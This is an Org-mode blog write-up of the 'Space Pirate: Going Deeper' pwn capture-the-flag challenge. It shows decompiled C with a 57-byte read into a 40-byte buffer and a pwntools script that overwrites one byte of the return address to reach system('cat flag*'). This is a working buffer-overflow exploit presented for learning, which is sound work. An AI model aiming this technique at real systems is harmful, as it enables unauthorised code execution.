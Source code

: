 :PROPERTIES:
:ID:       19d0687e-ec0c-4487-89ad-793e89859434
:END:
#+TITLE: Space Pirate: Going Deeper
#+AUTHOR: AsmArtisan256
#+DATE: 04-02-2025

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: spacepirategoingdeeper

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT


The binary from this =pwn= challenge comes with two shared objects, one referring
to =ld= and the other is some version of =libc=. For the binary to make use of these
files, we launch it like this:

#+BEGIN_SRC shell
LD_PRELOAD="glibc/ld-linux-x86-64.so.2 glibc/libc.so.6" ./sp_going_deeper
#+END_SRC

Then we get a prompt with some options, one of them being =Login=, which seems to
require a specific string.

#+DOWNLOADED: screenshot @ 2025-02-04 18:10:07
#+attr_org: :width 600px
[[file:writeup-img/2025-02-04_18-10-07_screenshot.png]]

Opening the binary in IDA Pro, we get a glimpse of how simple this program is
and how to get the flag. We have the login string in plain text, but it's also
possible to see that, if we want the flag to be printed, the values of =a=, =b= and
=c=, in the screenshot above, are to be changed. So it doesn't matter at all
having just the login name. The goal is to find a way to manipulate those three
values, isn't it? Most likely not, as you will see.

#+BEGIN_SRC c
int __fastcall admin_panel(__int64 a1, __int64 a2, __int64 a3)
{
  char buf[40]; // [rsp+20h] [rbp-30h] BYREF
  __int64 num; // [rsp+48h] [rbp-8h]

  num = 0LL;
  printf(
    "[*] Safety mechanisms are enabled!\n"
    "[*] Values are set to: a = [%x], b = [%ld], c = [%ld].\n"
    "[*] If you want to continue, disable the mechanism or login as admin.\n",
    a1,
    a2,
    a3);
  while ( num != 1 && num != 2 && num != 3 )
  {
    printf(a1DisableMechan);
    num = read_num();
  }
  if ( num == 1 )
  {
    printf("\n[*] Input: ");
  }
  else
  {
    if ( num != 2 )
    {
      puts("\n[!] Exiting..\n");
      exit(6969);
    }
    printf("\n[*] Username: ");
  }
  read(0, buf, 57uLL);
  if ( a1 == '\xDE\xAD\xBE\xEF'
    && a2 == '\x137\xC0\xDE'
    && a3 == '\x137\xBE\xEF'
    && strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft", buf, 52uLL) )
  {
    printf("\n%s[+] Welcome admin! The secret message is: ", "\x1B[1;32m");
    system("cat flag*");
  }
  else
  {
    printf("\n%s[-] Authentication failed!\n", "\x1B[1;31m");
  }
  return puts("\n[!] For security reasons, you are logged out..\n");
}
#+END_SRC

One thing that is fast to verify is that the =buf=, used for the user input, is
only 40 bytes long, while the =read= function accepts 57 bytes and the =strncmp=
function is trying to compare 52 bytes. So, clearly, the read function can
trigger a buffer overflow.

I tried, at first, running the binary in =GDB= and inserted 60 characters (=A=). The
binary crashed at address =0x400b41= and three =A='s were printed to the output.


#+DOWNLOADED: screenshot @ 2025-02-04 21:30:24
#+attr_org: :width 600px
[[file:writeup-img/2025-02-04_21-30-24_screenshot.png]]

This did lead me to believe that the 57th byte would fill the last part of the
address =0x400bXX=. As a test, I changed the input to be 56 =A='s and 1 =C=. And there
we go! The address was now =0x400b43=, where =0x43= equals =C=.


#+DOWNLOADED: screenshot @ 2025-02-04 21:32:18
#+attr_org: :width 600px
[[file:writeup-img/2025-02-04_21-32-18_screenshot.png]]


The address we can use to execute the =system("cat flag*")= part of the code is
=0x400b12=, therefore, the 57th character should be =0x12=.


#+DOWNLOADED: screenshot @ 2025-02-04 21:34:29
#+attr_org: :width 600px
[[file:writeup-img/2025-02-04_21-34-29_screenshot.png]]

For this, I wrote a =Python= script with =pwnlib= to send the payload:

#+BEGIN_SRC python
from pwn import *

p = process("./sp_going_deeper")

# select first option
p.sendline(b'1')
# send input
p.sendline(b'A' * 56 + b'\x12')

lines = p.recvall()
print(lines)

p.close()

#+END_SRC

Lo and behold, we got the local flag. I then tried the exploit on the remote
address to complete the challenge!


#+DOWNLOADED: screenshot @ 2025-02-04 21:38:06
#+attr_org: :width 600px
[[file:writeup-img/2025-02-04_21-38-06_screenshot.png]]


* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">04-02-2025</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
